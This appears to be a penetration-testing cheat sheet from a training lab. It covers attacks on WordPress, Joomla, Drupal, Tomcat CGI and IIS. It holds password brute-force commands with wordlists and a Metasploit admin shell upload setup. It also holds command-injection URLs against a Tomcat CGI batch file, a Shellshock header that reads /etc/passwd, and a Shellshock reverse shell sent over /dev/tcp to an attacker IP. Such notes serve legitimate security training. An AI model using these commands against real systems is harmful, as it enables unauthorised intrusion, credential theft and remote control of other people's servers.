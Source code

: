 #

# CMS

## WordPress

To find plugin versions , ex : wp-sitemap-page  
`http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

`curl http://blog.inlanefreight.local/?p=1 | grep plugin`  
`curl http://blog.inlanefreight.local | grep plugin`

**wpscan**

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.  
The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through /xmlrpc.php.  
***The `xmlrpc` method is preferred as it’s faster.***

```
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

## Joomla

### Enumeration

[droopescan](https://github.com/droope/droopescan), a plugin-based scanner that works for SilverStripe, WordPress, and Drupal with limited functionality for Joomla and Moodle.  

```
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Brute Force

[joomla-brute.py](https://github.com/ajnik/joomla-bruteforce)
```
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## Drupal

### Enumeration

```
droopescan scan drupal -u http://drupal.inlanefreight.local
```

## Attacking Tomcat CGI

### Fuzzing Extentions - .CMD

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

### Fuzzing Extentions - .BAT

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

### Enumeration - Gobuster

```
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

### Exploitation 
```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Confirming the Vulnerability

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

### Exploitation to Reverse Shell Access

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```


# Miscellaneous Applications

## IIS Tilde Enumeration

### Tilde Enumeration using IIS ShortName Scanner

[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
```
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/
```

### Generate Wordlist

```
egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```

```
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```


## Attacking Applications Connecting to Services

### ELF Executable Examination

Once the binary is loaded, we set the disassembly-flavor to define the display style of the code, and we proceed with disassembling the main function of the program.  
```
gdb-peda$ gdb ./octopus_checker
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main
```
